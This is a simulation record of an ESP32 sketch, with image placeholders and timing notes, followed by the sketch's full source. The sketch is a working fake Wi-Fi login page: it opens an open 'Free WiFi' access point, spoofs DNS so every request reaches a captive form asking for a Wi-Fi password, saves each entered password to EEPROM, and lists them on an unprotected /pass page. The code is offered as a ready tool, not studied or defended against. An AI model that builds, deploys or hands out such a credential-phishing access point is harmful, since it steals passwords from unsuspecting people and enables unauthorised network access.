
Recording of a sketch running on a simulated ESP32. Parts: output pins drawn as LEDs (lit = HIGH). Dashed ring = blinking. Inputs (shaded band) come from the test bench. EEPROM starts erased; what the sketch prints to the serial monitor is not drawn.

Above: at 0.1 s.
At 3.2 s:

3.3 s: HTTP request GET /post received
At 4.2 s:

6.3 s: HTTP request GET /clear received
Timing chart, 0 to 14.8 s (numbered marks = the images above; inputs shaded):


Measured:
- after the input at 3.3 s, GPIO 4 (led_gpio): alternates HIGH for 0.50 s and LOW for 0.50 s, starting after 0.51 s

The sketch:

en-ESP32-Fake-WiFi-login-page.ino
```cpp
// Fake Wi-Fi login page capturing passwords

// Libraries
#include <WiFi.h>
#include <DNSServer.h>
#include <WebServer.h>
#include <EEPROM.h>

// Default SSID name
const char* SSID_NAME = "Free WiFi";

// Default main strings
#define SUBTITLE "Wi-Fi"
#define TITLE "Login"
#define BODY "This is the login page for your network."
#define POST_TITLE "Authentication in progress..."
#define POST_BODY "Logging in to the Wi-Fi network. Please wait a moment...</br>Thank you."
#define PASS_TITLE "Passwords"
#define CLEAR_TITLE "Cleared"

// Init system settings
const byte led_gpio = 4; // LED connected to output 3
const byte DNS_PORT = 53;
const byte TICK_TIMER = 1000;
IPAddress APIP(172, 0, 0, 1); // Gateway

String allPass = "";
String newSSID = "";
String currentSSID = "";

// For storing passwords in EEPROM.
int initialCheckLocation = 20; // Location to check whether the ESP is running for the first time.
int passStart = 30;            // Starting location in EEPROM to save password.
int passEnd = passStart;       // Ending location in EEPROM to save password.

unsigned long bootTime = 0, lastActivity = 0, lastTick = 0, tickCtr = 0;
DNSServer dnsServer;
WebServer webServer(80);

String input(String argName) {
  String a = webServer.arg(argName);
  a.replace("<", "&lt;");
  a.replace(">", "&gt;");
  a.substring(0, 200);
  return a;
}

String footer() {
  return "</div><div class=q><a>&#169; All rights reserved.</a></div>";
}

String header(String t) {
  String a = String(currentSSID);
  String CSS = "article { background: #f2f2f2; padding: 1.3em; }"
                "body { color: #333; font-family: Century Gothic, sans-serif; font-size: 18px; line-height: 24px; margin: 0; padding: 0; }"
                "div { padding: 0.5em; }"
                "h1 { margin: 0.5em 0 0 0; padding: 0.5em; }"
                "input { width: 100%; padding: 9px 10px; margin: 8px 0; box-sizing: border-box; border-radius: 0; border: 1px solid #555555; border-radius: 10px; }"
                "label { color: #333; display: block; font-style: italic; font-weight: bold; }"
                "nav { background: #0066ff; color: #fff; display: block; font-size: 1.3em; padding: 1em; }"
                "nav b { display: block; font-size: 1.5em; margin-bottom: 0.5em; } "
                "textarea { width: 100%; }";
  String h = "<!DOCTYPE html><html>"
              "<head><title>" + a + " :: " + t + "</title>"
                                                 "<meta name=viewport content=\"width=device-width,initial-scale=1\">"
                                                 "<style>" + CSS + "</style>"
                                                                    "<meta charset=\"UTF-8\"></head>"
                                                                    "<body><nav><b>" + a + "</b> " + SUBTITLE + "</nav><div><h1>" + t + "</h1></div><div>";
  return h;
}

String index() {
  return header(TITLE) + "<div>" + BODY + "</ol></div><div><form action=/post method=post><label>Enter your Wi-Fi password:</label>" +
         "<input type=password name=m></input><input type=submit value=Connect></form>" + footer();
}

String posted() {
  String pass = input("m");
  pass = "<li><b>" + pass + "</li></b>"; // Adding password in an ordered list.
  allPass += pass;                       // Updating the full passwords.

  // Storing passwords to EEPROM.
  for (int i = 0; i <= pass.length(); ++i)
  {
    EEPROM.write(passEnd + i, pass[i]); // Adding password to the existing password in EEPROM.
  }

  passEnd += pass.length(); // Updating the end position of passwords in EEPROM.
  EEPROM.write(passEnd, '\0');
  EEPROM.commit();
  return header(POST_TITLE) + POST_BODY + footer();
}

String pass() {
  return header(PASS_TITLE) + "<ol>" + allPass + "</ol><br><center><p><a style=\"color:blue\" href=/>Index</a></p><p><a style=\"color:blue\" href=/ssid>Change SSID</a></p><p><a style=\"color:blue\" href=/clear>Clear passwords</a></p></center>" + footer();
}

String ssid() {
  return header("Change SSID") + "<p>Here you can change the SSID name. After pressing the „Change SSID” button, you will lose the connection, so restart your device from Fake-WiFi-login-page and reconnect to the new SSID.</p>" + "<form action=/postSSID method=post><label>New SSID:</label>" +
         "<input type=text name=s></input><input type=submit value=\"Change SSID\"></form>" + footer();
}

String postedSSID() {
  String postedSSID = input("s");
  newSSID = "<li><b>" + postedSSID + "</b></li>";
  for (int i = 0; i < postedSSID.length(); ++i)
  {
    EEPROM.write(i, postedSSID[i]);
  }
  EEPROM.write(postedSSID.length(), '\0');
  EEPROM.commit();
  WiFi.softAP(postedSSID);
}

String clear() {
  allPass = "";
  passEnd = passStart; // Setting the password end location -> starting position.
  EEPROM.write(passEnd, '\0');
  EEPROM.commit();
  return header(CLEAR_TITLE) + "<div><p>The password list has been cleared.</div></p><center><a style=\"color:blue\" href=/pass>Back to Pass</a></center>" + footer();
}

void LEDON()
{ // After entering the password, the diode connected to the output declared in the led_gpio parameter will blink for 5 seconds and then be on constantly.
  for (int counter = 0; counter < 10; counter++)
  {
    // For blinking the LED.
    digitalWrite(led_gpio, counter % 2);
    delay(500);
  }
}

void LEDOFF()
{ // After clearing the password, the diode connected to the output declared in the led_gpio parameter will blink for 5 seconds and then turn off.
  for (int counter = 0; counter < 11; counter++)
  {
    // For blinking the LED.
    digitalWrite(led_gpio, counter % 2);
    delay(500);
  }
}

void setup()
{
  // Serial begin
  Serial.begin(115200);

  bootTime = lastActivity = millis();
  EEPROM.begin(512);
  delay(10);

  // Check whether the ESP is running for the first time.
  String checkValue = "first"; // This will be set in EEPROM after the first run.

  for (int i = 0; i < checkValue.length(); ++i)
  {
    if (char(EEPROM.read(i + initialCheckLocation)) != checkValue[i])
    {
      // Add "first" in initialCheckLocation.
      for (int i = 0; i < checkValue.length(); ++i)
      {
        EEPROM.write(i + initialCheckLocation, checkValue[i]);
      }
      EEPROM.write(0, '\0');         // Clear SSID location in EEPROM.
      EEPROM.write(passStart, '\0'); // Clear password location in EEPROM
      EEPROM.commit();
      break;
    }
  }

  // Read EEPROM SSID
  String ESSID;
  int i = 0;
  while (EEPROM.read(i) != '\0')
  {
    ESSID += char(EEPROM.read(i));
    i++;
  }

  // Reading stored password and end location of passwords in the EEPROM.
  while (EEPROM.read(passEnd) != '\0')
  {
    allPass += char(EEPROM.read(passEnd)); // Reading the stored password in EEPROM.
    passEnd++;                             // Updating the end location of the password in EEPROM.
  }

  WiFi.mode(WIFI_AP);
  WiFi.softAPConfig(APIP, APIP, IPAddress(255, 255, 255, 0));

  // Setting currentSSID -> SSID in EEPROM or default one.
  currentSSID = ESSID.length() > 1 ? ESSID.c_str() : SSID_NAME;

  Serial.print("Current SSID: ");
  Serial.print(currentSSID);
  WiFi.softAP(currentSSID);

  // Start webserver
  dnsServer.start(DNS_PORT, "*", APIP); // DNS spoofing (Only for HTTP)
  webServer.on("/post", []() { webServer.send(200, "text/html", posted()); LEDON(); });
  webServer.on("/ssid", []() { webServer.send(200, "text/html", ssid()); });
  webServer.on("/postSSID", []() { webServer.send(200, "text/html", postedSSID()); });
  webServer.on("/pass", []() { webServer.send(200, "text/html", pass()); });
  webServer.on("/clear", []() { webServer.send(200, "text/html", clear()); LEDOFF(); });
  webServer.onNotFound([]() { lastActivity = millis(); webServer.send(200, "text/html", index()); });
  webServer.begin();

  // Turn on the LED and turn off the LED after 1 second
  pinMode(led_gpio, OUTPUT);
  digitalWrite(led_gpio, HIGH);
  delay(1000);
  digitalWrite(led_gpio, LOW);
  delay(1000);
}

void loop()
{
  if ((millis() - lastTick) > TICK_TIMER)
  {
    lastTick = millis();
  }
  dnsServer.processNextRequest();
  webServer.handleClient();
}
```
